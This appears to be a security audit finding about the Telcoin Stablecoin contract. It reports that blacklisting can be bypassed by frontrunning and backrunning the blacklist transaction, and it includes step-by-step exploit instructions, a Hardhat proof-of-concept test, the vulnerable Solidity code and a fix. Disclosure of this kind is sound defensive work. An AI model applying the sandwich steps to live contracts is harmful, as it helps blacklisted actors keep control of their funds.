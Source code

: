 Exotic Concrete Boa

high

# Blacklisting functionality can be completely bypassed by sandwiching the transaction

## Summary
The [Stablecoin](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/21920190e0772afa18e7f856a036fea3ef5b9635/telcoin-contracts/contracts/stablecoin/Stablecoin.sol#L19) contract inherits from [Blacklist](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/21920190e0772afa18e7f856a036fea3ef5b9635/telcoin-contracts/contracts/util/abstract/Blacklist.sol) to allow the owner of the protocol to stop certain addresses from committing nefarious actions. However, the standard ERC20 `transfer` function does not take into account whether the addresses it operates with are blacklisted or not. This can render the whole blacklisting functionality useless.

## Vulnerability Detail
In order to add an address to the blacklist, someone holding the `BLACKLISTER_ROLE` has to call [Blacklist.addBlackList()](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/21920190e0772afa18e7f856a036fea3ef5b9635/telcoin-contracts/contracts/util/abstract/Blacklist.sol#L72-L79). Then [Stablecoin._onceBlacklisted](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/21920190e0772afa18e7f856a036fea3ef5b9635/telcoin-contracts/contracts/stablecoin/Stablecoin.sol#L124) will be called. It will transfer all tokens of the address to be blacklisted to the one who is performing the blacklist operation. This looks like a fine blacklisting functionality, but it can be easily bypassed because the `transfer` function does not know which addresses are blacklisted.

#### Exploit steps:
1. `BLACKLISTER` initiates a transaction to add Bob to the blacklist.
2. Bob frontruns the transaction and sends all his balance to his second account (Bob2)
3. The blacklisting transaction gets executed, Bob is added to the blacklist and his balance (0) is being transferred to the `BLACKLISTER`.
4. Bob2 backruns the transaction and sends all the tokens back to Bob.
5. Now Bob can continue to operate freely with his tokens because the standard ERC20 actions are not gated for blacklisted addresses.

#### POC:
Add the following `it` to this [describe](https://github.com/sherlock-audit/2024-02-telcoin-platform-audit-update/blob/21920190e0772afa18e7f856a036fea3ef5b9635/telcoin-contracts/test/stablecoins/Stablecoin.test.ts#L80-L92)
```javascript
        it ("sandwich", async () => {
            const [,,holder2] = await ethers.getSigners();
            await stablecoin.mintTo(holder, 100);

            // Sandwich the transaction to avoid transferring tokens
            await stablecoin.connect(holder).transfer(holder2.address, 100);
            await stablecoin.addBlackList(holder);
            await stablecoin.connect(holder2).transfer(holder.address, 100);

            // The blacklisted user can continue to use the tokens as if they were never blacklisted
            await expect(
              await stablecoin.connect(holder).transfer(holder2.address, 100)
            ).to.be.not.reverted;
        });
```

## Impact
The blacklisting functionality can be easily bypassed letting malicious addresses operate freely with the stablecoin.

## Code Snippet
```solidity
    function addBlackList(
        address user
    ) public virtual onlyRole(BLACKLISTER_ROLE) {
        if (blacklisted(user)) revert AlreadyBlacklisted(user);
        _setBlacklist(user, true);
        _onceBlacklisted(user);
        emit AddedBlacklist(user);
    }
```

```solidity
    function _onceBlacklisted(address user) internal override {
        _transfer(user, _msgSender(), balanceOf(user));
    }
```

## Tool used
Hardhat

## Recommendation
Override the transfer functions and make them revert if they initiate a transfer from a blacklisted user.

